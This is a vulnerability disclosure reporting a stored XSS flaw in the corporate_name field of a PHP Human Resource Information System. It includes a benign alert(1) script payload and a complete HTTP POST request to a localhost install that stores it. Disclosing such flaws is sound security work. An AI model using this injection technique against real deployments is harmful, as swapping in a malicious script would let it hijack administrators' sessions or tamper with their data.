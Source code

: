#### BUG_AUTHOR:LIU WEIYU
## Human Resource Information System – Stored XSS on (Superadmin_Dashboard/process/addcorporate_process.php corporate_name parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/14714/human-resource-information-using-phpmysqliobject-orientedcomplete-free-sourcecode.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
Superadmin_Dashboard/process/addcorporate_process.php 

On this page, corporate_name parameter is vulnerable to Stored XSS Attack 
### Proof of vulnerability:
#### Payload：
<script>alert(1)</script>
#### Request:
```
POST http://localhost/Human%20Resource%20Information%20System%202020/Superadmin_Dashboard/process/addcorporate_process.php HTTP/1.1
Host: localhost
Content-Length: 60
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/Human%20Resource%20Information%20System%202020/Superadmin_Dashboard/Add_corporate.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dmbqp07an31thhtebo1f649jii
Connection: close

corporate_name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&corp=
 ```
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/be186e26-5af4-4987-a14e-2f4de65f5931">

### Trigger popup(The data has been stored in the database)：

<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/f7e7d098-0787-4bd3-81c7-03944d49c88e">

